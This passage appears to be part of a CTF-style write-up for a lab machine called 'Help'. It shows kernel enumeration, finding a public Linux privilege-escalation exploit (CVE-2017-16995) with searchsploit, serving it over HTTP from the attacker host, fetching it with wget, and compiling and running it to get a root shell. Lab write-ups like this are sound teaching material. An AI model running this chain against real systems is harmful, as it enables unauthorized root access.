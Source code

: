 ```bash
ls
help  npm-debug.log  user.txt
help@help:/home/help$ cat user.txt
cat user.txt
```
After some digging I used `uname -a` and returned; Linux help 4.4.0-116-generic #140-Ubuntu SMP Mon Feb 12 21:23:04 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux

Using searchsploit again I found this exploit. 
Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation                                                 | linux/local/44298.c

To get the file to my target's machine I first made sure I downloaded the exploit in my machine;
searchsploit -m linux/local/44298.c
  Exploit: Linux Kernel < 4.4.0-116 (Ubuntu 16.04.4) - Local Privilege Escalation
      URL: https://www.exploit-db.com/exploits/44298
     Path: /usr/share/exploitdb/exploits/linux/local/44298.c
    Codes: CVE-2017-16995
 Verified: False
File Type: C source, ASCII text
Copied to: /tmp/help/44298.c


From here I started a http server;
python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
10.10.10.121 - - [06/Apr/2025 22:11:28] "GET /44298.c HTTP/1.1" 200 -

Back in the targets machine I used;
`help@help:/home/help$ wget http://10.10.14.11:8888/44298.c`

Then:

```bash 
help@help:/home/help$ gcc 44298.c -o x
gcc 44298.c -o x
help@help:/home/help$ chmod +x x
chmod +x x
help@help:/home/help$ ./x
./x
task_struct = ffff88001df98e00
uidptr = ffff88003d120b44
spawning root shell
root@help:/home/help# whoami
whoami
root
root@help:/home/help# ls
ls
44298.c  help  npm-debug.log  user.txt  x
root@help:/home/help# cd /root
cd /root
root@help:/root# cat root.txt
cat root.txt
```

